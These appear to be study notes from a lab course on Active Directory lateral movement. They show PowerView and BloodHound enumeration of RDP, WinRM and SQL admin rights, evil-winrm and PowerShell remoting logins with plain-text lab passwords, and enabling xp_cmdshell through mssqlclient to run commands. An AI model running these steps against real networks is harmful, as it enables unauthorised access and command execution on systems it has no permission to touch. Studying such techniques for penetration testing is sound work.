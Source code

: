 ### Content
- [RDP](#rdp)
- [WinRM](#winrm)
---


> [!Note]
>  If we take over an account with local admin rights over a host, or set of hosts, we can perform a `Pass-the-Hash` attack to authenticate via the SMB protocol.
>  
>  If we don't yet have local admin rights on any hosts, there are:
>  - RDP
>  - [PowerShell Remoting](https://docs.microsoft.com/en-us/powershell/scripting/learn/ps101/08-powershell-remoting?view=powershell-7.2)
>  - MSSQL Server 
>
> We can enumerate this access in various ways. BloodHound, PowerView, built-in tools as the following edges exist to show us what types of remote access privileges a given user has:
>  - [CanRDP](https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html#canrdp)
>  - [CanPSRemote](https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html#canpsremote)
>  - [SQLAdmin](https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html#sqladmin)

---
# RDP

Enumerating the Remote Desktop Users Group using PowerView on a host.

``` Powershell
PS C:\> Get-NetLocalGroupMember -ComputerName MS01 -GroupName "Remote Desktop Users"

ComputerName : MS01
GroupName    : Remote Desktop Users
MemberName   : DOMAIN\Domain Users
SID          : S-1-5-21-3842939050-3880317879-2865463114-513
IsGroup      : True
IsDomain     : UNKNOWN


# From the information above, all Domain Users (meaning all users in the domain) can RDP to this host.
```

Enumerating the Remote Desktop Users Group on Every Host using PowerView

``` Powershell
PS C:\> Get-ADComputer -Filter * | Select-Object -ExpandProperty SamAccountName > ad_computers.txt
PS C:\> foreach($line in [System.IO.File]::ReadLines("ad_computers.txt")) {Get-NetLocalGroupMember -ComputerName "$($line.TrimEnd('$'))" -GroupName "Remote Desktop Users"}
```

##### BloodHound

- Choose the `Domain Users's group` node and check its execution rights. 
- Run the pre-built queries `Find Workstations where Domain Users can RDP` or `Find Servers where Domain Users can RDP`.

> To test this access, we can either use a tool such as `xfreerdp` or `Remmina` from our VM or the Pwnbox or `mstsc.exe` if attacking from a Windows host.

---

# WinRM

Enumerating the Remote Management Users Group on a Host using PowerView
``` PowerShell
PS C:\> Get-NetLocalGroupMember -ComputerName MS01 -GroupName "Remote Management Users"

ComputerName : ACADEMY-EA-MS01
GroupName    : Remote Management Users
MemberName   : INLANEFREIGHT\forend
SID          : S-1-5-21-3842939050-3880317879-2865463114-5614
IsGroup      : False
IsDomain     : UNKNOWN
```

Enumerating the Remote Management Users Group on Every Host using PowerView
``` PowerShell
PS C:\> Get-ADComputer -Filter * | Select-Object -ExpandProperty SamAccountName > ad_computers.txt
PS C:\> foreach($line in [System.IO.File]::ReadLines("ad_computers.txt")) {Get-NetLocalGroupMember -ComputerName "$($line.TrimEnd('$'))" -GroupName "Remote Management Users"}
```
##### BloodHound
Utilize this custom `Cypher query` in BloodHound to hunt for users with this type of access.
``` Cypher

MATCH p1=shortestPath((u1:User)-[r1:MemberOf*1..]->(g1:Group)) MATCH p2=(u1)-[:CanPSRemote*1..]->(c:Computer) RETURN p2
```

> To test this access form Windows host, use [Enter-PSSession](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/enter-pssession?view=powershell-7.2) cmdlet using PowerShell and use [evil-winrm](https://github.com/Hackplayers/evil-winrm) from Linux host.

Establishing WinRM Session from Windows
``` PowerShell
PS C:\> $password = ConvertTo-SecureString "Klmcargo2" -AsPlainText -Force
PS C:\> $cred = new-object System.Management.Automation.PSCredential ("INLANEFREIGHT\forend", $password)
PS C:\> Enter-PSSession -ComputerName ACADEMY-EA-MS01 -Credential $cred
```
Establishing WinRM Session from Linux
``` bash
$ evil-winrm -i 10.129.201.234 -u forend
```

---
# SQL Server Admin

If we have compromised a user or service account with sysadmin privileges on a given SQL server instance.

Enumerating MSSQL Instances with PowerUpSQL.
``` PowerShell
PS C:\> Import-Module .\PowerUpSQL.ps1
PS C:\> Get-SQLInstanceDomain

ComputerName     : ACADEMY-EA-DB01.INLANEFREIGHT.LOCAL
Instance         : ACADEMY-EA-DB01.INLANEFREIGHT.LOCAL,1433
DomainAccountSid : 1500000521000170152142291832437223174127203170152400
DomainAccount    : damundsen
DomainAccountCn  : Dana Amundsen
Service          : MSSQLSvc
Spn              : MSSQLSvc/ACADEMY-EA-DB01.INLANEFREIGHT.LOCAL:1433
LastLogon        : 4/6/2022 11:59 AM
```
##### BloodHound
use this custom Cypher query to search users and service accounts set up with sysadmin privileges on a given SQL server instance.
``` Cypher

MATCH p1=shortestPath((u1:User)-[r1:MemberOf*1..]->(g1:Group)) MATCH p2=(u1)-[:SQLAdmin*1..]->(c:Computer) RETURN p2
```

> To test this access, use `PowerUpSQL` module in windows and `mssqlclient` in linux.

PowerUpSQL > [command cheat sheet](https://github.com/NetSPI/PowerUpSQL/wiki/PowerUpSQL-Cheat-Sheet).

``` PowerShell

PS C:\> Get-SQLQuery -Verbose -Instance "172.16.5.150,1433" -username "inlanefreight\damundsen" -password "SQL1234!" -query 'Select @@version'
```

mssqlclient

``` bash
$ mssqlclient.py INLANEFREIGHT/DAMUNDSEN@172.16.5.150 -windows-auth

SQL> enable_xp_cmdshell
SQL> xp_cmdshell type C:\Users\damundsen\Desktop\flag.txt
```

